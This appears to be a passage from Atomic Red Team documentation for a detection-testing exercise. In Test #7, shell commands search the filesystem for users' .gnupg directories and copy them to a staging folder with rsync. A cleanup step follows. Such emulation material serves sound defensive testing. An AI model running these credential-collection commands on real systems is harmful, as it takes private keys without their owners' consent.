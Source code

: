

#### Dependencies:  Run with `sh`!
##### Description: Check if rsync is installed.
##### Check Prereq Commands:
```sh
if [ ! -x "$(command -v rsync)" ]; then exit 1; else exit 0; fi;
```
##### Get Prereq Commands:
```sh
(which pkg && pkg install -y rsync)
```




<br/>
<br/>

## Atomic Test #7 - Copy the users GnuPG directory with rsync
Copy the users GnuPG (.gnupg) directory on a Mac or Linux system to a staging folder using the `rsync` command.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 2a5a0601-f5fb-4e2e-aa09-73282ae6afca





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| search_path | Path where to start searching from | path | /|
| output_folder | Output folder containing a copy of the .gnupg directory | path | /tmp/GnuPG|


#### Attack Commands: Run with `sh`! 


```sh
mkdir #{output_folder}
find #{search_path} -type d -name '.gnupg' 2>/dev/null -exec rsync -Rr {} #{output_folder} \;
exit 0
```

#### Cleanup Commands:
```sh
rm -rf #{output_folder}
```





<br/>
<br/>
